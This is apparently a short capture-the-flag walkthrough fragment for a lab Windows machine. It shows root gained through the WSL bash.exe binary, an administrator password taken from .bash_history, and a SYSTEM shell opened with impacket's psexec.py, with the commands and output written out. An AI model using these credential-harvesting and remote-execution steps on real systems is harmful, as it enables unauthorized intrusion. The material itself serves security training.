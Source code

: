 
**Gaining root by executing bash.exe**
```
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
```

Found administrator credentials in .bash_history
```
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```

**Admin shell using psexec.py**

`python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.97`
```
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password: u6!4ZwgwOM#^OBf#Nwnh
[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file XCbGWYgT.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service OhSz on 10.10.10.97.....
[*] Starting service OhSz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```




